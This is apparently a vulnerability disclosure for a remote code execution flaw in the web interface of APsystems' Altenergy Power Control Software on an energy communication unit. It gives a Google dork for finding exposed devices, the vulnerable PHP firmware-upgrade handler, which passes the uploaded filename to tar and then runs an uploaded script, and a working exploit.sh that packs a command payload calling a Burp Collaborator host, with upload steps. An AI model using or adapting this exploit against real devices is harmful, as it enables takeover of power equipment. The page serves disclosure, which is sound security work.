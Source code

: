 ## title : insufficient verification of firmware integrity "Altenergy Power Control Software" led to RCE
### SW ver: C1.2.5
### Vendor:  https://apsystems.com/
### Google Dork: intitle:"Altenergy Power Control Software"
### Affected device: ENERGY COMMUNICATION UNIT
![Alt Text](https://www.ecodirect.com/v/vspfiles/photos/APSYSTEMS-YC500-ECU-2T.jpg)

## POC Video :
[![Watch the video](https://i.imgur.com/vKb2F1B.png)](https://www.youtube.com/watch?v=vU-9gUUVLnc)

## vulnerable code :

"/home/local_web/pagesapplication/models/management_model.php"

```php
 public function exec_upgrade_ecu()
    {
        $results = array();
        $res_array = array();

        exec("rm -rf /tmp/update_localweb/");
        if ($_FILES["file"]["error"] > 0)
        {
            array_push($res_array, "Return Code: " . $_FILES["file"]["error"] . "<br />");
            $results["value"] = 1;
        }
        else
        {
            array_push($res_array, "Upload: " . $_FILES["file"]["name"] . "<br />");
            array_push($res_array, "Type: " . $_FILES["file"]["type"] . "<br />");
            array_push($res_array, "Size: " . ($_FILES["file"]["size"] / 1024) . " Kb<br />");
            array_push($res_array, "Temp file: " . $_FILES["file"]["tmp_name"] . "<br />");        

            move_uploaded_file($_FILES["file"]["tmp_name"], "/tmp/" . $_FILES["file"]["name"]);
            array_push($res_array, "Stored in: " . "/tmp/" . $_FILES["file"]["name"]);
            exec("tar xjvf /tmp/".$_FILES["file"]["name"]." -C /tmp");
            exec("ls /tmp/update_localweb/assist", $temp, $value);
            exec("/tmp/update_localweb/assist &");
            $results["value"] = $value ? 1 : 0;
        }

        $results["result"] = implode("\n",$res_array);
        return $results;
    }

```

## Exploit : 

exploit.sh

```bash
#!/bin/bash
mkdir update_localweb 2>/dev/null
payload='ping -c 1 ahvmb8ham4hkik6ifzt7o8puyl4hs6.burpcollaborator.net'
echo $payload > update_localweb/assist
chmod 777 update_localweb/assist
tar cjvf b4db0t.bin update_localweb/
rm -rf update_localweb 

```
Browse to http://<IP_ADDR>/index.php/management/upgrade_ecu and upload b4db0t.bin
POC : 

![Alt Text](POC2.png)


  
